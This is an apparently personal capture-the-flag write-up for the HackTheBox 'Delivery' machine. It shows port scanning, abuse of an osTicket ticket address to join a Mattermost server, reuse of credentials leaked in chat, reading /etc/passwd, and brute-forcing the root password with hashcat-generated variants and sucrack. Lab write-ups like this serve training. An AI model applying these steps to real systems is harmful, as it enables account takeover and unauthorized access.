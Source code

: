 # Scan

```bash
ghost@localhost [01:09:06] [~/Documents/hacking/tj-null-boxes/delivery] [master]
-> % rustscan -a $IP -- -sC -sV

Open 10.10.10.222:22
Open 10.10.10.222:80
Open 10.10.10.222:8065

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 9c40fa859b01acac0ebc0c19518aee27 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCq549E025Q9FR27LDR6WZRQ52ikKjKUQLmE9ndEKjB0i1qOoL+WzkvqTdqEU6fFW6AqUIdSEd7GMNSMOk66otFgSoerK6MmH5IZjy4JqMoNVPDdWfmEiagBlG3H7IZ7yAO8gcg0RRrIQjE7XTMV09GmxEUtjojoLoqudUvbUi8COHCO6baVmyjZRlXRCQ6qTKIxRZbUAo0GOY8bYmf9sMLf70w6u/xbE2EYDFH+w60ES2K906x7lyfEPe73NfAIEhHNL8DBAUfQWzQjVjYNOLqGp/WdlKA1RLAOklpIdJQ9iehsH0q6nqjeTUv47mIHUiqaM+vlkCEAN3AAQH5mB/1
|   256 5a0cc03b9b76552e6ec4f4b95d761709 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAiAKnk2lw0GxzzqMXNsPQ1bTk35WwxCa3ED5H34T1yYMiXnRlfssJwso60D34/IM8vYXH0rznR9tHvjdN7R3hY=
|   256 b79df7489da2f27630fd42d3353a808c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEV5D6eYjySqfhW4l4IF1SZkZHxIRihnY6Mn6D8mLEW7
80/tcp   open  http    syn-ack nginx 1.14.2
|_http-server-header: nginx/1.14.2
| http-methods:
|_  Supported Methods: GET HEAD
|_http-title: Welcome
8065/tcp open  unknown syn-ack
| fingerprint-strings:
|   GenericLines, Help, RTSPRequest, SSLSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 200 OK
|     Accept-Ranges: bytes
|     Cache-Control: no-cache, max-age=31556926, public
|     Content-Length: 3108
|     Content-Security-Policy: frame-ancestors 'self'; script-src 'self' cdn.rudderlabs.com
|     Content-Type: text/html; charset=utf-8
|     Last-Modified: Wed, 02 Nov 2022 17:04:55 GMT
|     X-Frame-Options: SAMEORIGIN
|     X-Request-Id: 5u5e5pj317ro7d71qsjodtrp3r
|     X-Version-Id: 5.30.0.5.30.1.57fb31b889bf81d99d8af8176d4bbaaa.false
|     Date: Wed, 02 Nov 2022 17:10:08 GMT
|     <!doctype html><html lang="en"><head><meta charset="utf-8"><meta name="viewport" content="width=device-width,initial-scale=1,maximum-scale=1,user-scalable=0"><meta name="robots" content="noindex, nofollow"><meta name="referrer" content="no-referrer"><title>Mattermost</title><meta name="mobile-web-app-capable" content="yes"><meta name="application-name" content="Mattermost"><meta name="format-detection" content="telephone=no"><link re
|   HTTPOptions:
|     HTTP/1.0 405 Method Not Allowed
|     Date: Wed, 02 Nov 2022 17:10:09 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8065-TCP:V=7.93%I=7%D=11/3%Time=6362A46B%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(GetRequest,DF3,"HTTP/1\.0\x20200\x20OK\r\nAccept-Ranges:\
SF:x20bytes\r\nCache-Control:\x20no-cache,\x20max-age=31556926,\x20public\
SF:r\nContent-Length:\x203108\r\nContent-Security-Policy:\x20frame-ancesto
SF:rs\x20'self';\x20script-src\x20'self'\x20cdn\.rudderlabs\.com\r\nConten
SF:t-Type:\x20text/html;\x20charset=utf-8\r\nLast-Modified:\x20Wed,\x2002\
SF:x20Nov\x202022\x2017:04:55\x20GMT\r\nX-Frame-Options:\x20SAMEORIGIN\r\n
SF:X-Request-Id:\x205u5e5pj317ro7d71qsjodtrp3r\r\nX-Version-Id:\x205\.30\.
SF:0\.5\.30\.1\.57fb31b889bf81d99d8af8176d4bbaaa\.false\r\nDate:\x20Wed,\x
SF:2002\x20Nov\x202022\x2017:10:08\x20GMT\r\n\r\n<!doctype\x20html><html\x
SF:20lang=\"en\"><head><meta\x20charset=\"utf-8\"><meta\x20name=\"viewport
SF:\"\x20content=\"width=device-width,initial-scale=1,maximum-scale=1,user
SF:-scalable=0\"><meta\x20name=\"robots\"\x20content=\"noindex,\x20nofollo
SF:w\"><meta\x20name=\"referrer\"\x20content=\"no-referrer\"><title>Matter
SF:most</title><meta\x20name=\"mobile-web-app-capable\"\x20content=\"yes\"
SF:><meta\x20name=\"application-name\"\x20content=\"Mattermost\"><meta\x20
SF:name=\"format-detection\"\x20content=\"telephone=no\"><link\x20re")%r(H
SF:TTPOptions,5B,"HTTP/1\.0\x20405\x20Method\x20Not\x20Allowed\r\nDate:\x2
SF:0Wed,\x2002\x20Nov\x202022\x2017:10:09\x20GMT\r\nContent-Length:\x200\r
SF:\n\r\n")%r(RTSPRequest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConten
SF:t-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n
SF:400\x20Bad\x20Request")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close
SF:\r\n\r\n400\x20Bad\x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x2
SF:0Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nCon
SF:nection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TerminalServerCookie
SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request"
SF:);
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# 80 (delivery.htb)

From looking around the website, found 2 domains `delivery.htb` and `helpdesk.delivery.htb`.

## helpdesk.delivery.htb

That subdomain is running a system called `osTicket`. I tried creating an account, however it requires confirmation. Therefore not manage to login.

I tried for a way to find out osTicket version but no luck. There's no SQL injection. However, creating a ticket exposes a company email.

9218198@delivery.htb where the number is the ticket id. I can email to that address to update an email.

So I use that email and register a new mattermost account with company domain.


## 8065 (mattermost)

`9218198@delivery.htb:Hacktheb0x!`

I register with the above credential, and verified an account. With that, I am able to join the company `Internal` organisation.

From the chat, I found one user ` root@delivery.htb ` and also a credential `maildeliverer:Youve_G0t_Mail!`.

```
@developers Please update theme to the OSTicket before we go live. Credentials to the server are maildeliverer:Youve_G0t_Mail!

Also please create a program to help us stop re-using the same passwords everywhere.... Especially those that are a variant of "PleaseSubscribe!"

PleaseSubscribe! may not be in RockYou but if any hacker manages to get our hashes, they can use hashcat rules to easily crack all variations of common words or phrases.
```


With that, I am able to login to `osTicket`, and found a new email ` maildeliverer@delivery.htb `. 


# User

Using the same credential, I can also ssh into the server as `maildeliverer`.

```bash
ghost@localhost [01:36:43] [~/Documents/hacking/tj-null-boxes/delivery] [master]
-> % ssh maildeliverer@delivery.htb

maildeliverer@Delivery:~$ cat user.txt
748293969d4a2fecdc9b113b406c1f9e
```


# Lateral movement

I checked `sudo -l` but there's no command the user `maildeliverer` can run without sudo password.

I checked `/etc/passwd` for users with login and found a few.

```bash
maildeliverer@Delivery:~$ cat /etc/passwd | grep -v 'false\|nologin'
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
maildeliverer:x:1000:1000:MailDeliverer,,,:/home/maildeliverer:/bin/bash
mattermost:x:998:998::/home/mattermost:/bin/sh
```

In mattermost chat, I saw this message

```
Also please create a program to help us stop re-using the same passwords everywhere.... Especially those that are a variant of "PleaseSubscribe!"

PleaseSubscribe! may not be in RockYou but if any hacker manages to get our hashes, they can use hashcat rules to easily crack all variations of common words or phrases.
```

So it would be a good idea to build variable of `PleseSubscribe!` and try lateral movement to `mattermost` user.

```bash
ghost@localhost [01:45:31] [~/Documents/hacking/tj-null-boxes/delivery] [master *]
-> % cat pw
───────┬──────────────────────
       │ File: pw
───────┼──────────────────────
   1   │ PleaseSubscribe!
───────┴──────────────────────


ghost@localhost [01:46:26] [~/Documents/hacking/tj-null-boxes/delivery] [master *]
-> % hashcat --stdout pw -r /usr/share/hashcat/rules/best64.rule > passwords


ghost@localhost [01:46:55] [~/Documents/hacking/tj-null-boxes/delivery] [master *]
-> % head passwords
PleaseSubscribe!
!ebircsbuSesaelP
PLEASESUBSCRIBE!
pleaseSubscribe!
PleaseSubscribe!0
PleaseSubscribe!1
PleaseSubscribe!2
PleaseSubscribe!3
PleaseSubscribe!4
PleaseSubscribe!5


ghost@localhost [01:47:11] [~/Documents/hacking/tj-null-boxes/delivery] [master *]
-> % wc -l passwords
77 passwords
```

Then I downloaded `sucrack` (https://github.com/hemp3l/sucrack) and the password lists to the target machine under `/dev/shm`.


# Privilege escalation

I managed to crack the root password.

```bash
maildeliverer@Delivery:/dev/shm$ ./sucrack -u root passwords  -w 20
password is: PleaseSubscribe!21
```

Then su into the server.

```bash
maildeliverer@Delivery:~$ su root
Password:

root@Delivery:/home/maildeliverer# cat /root/root.txt
762d4cae19c461273cc4afbc20fcd3f0
```


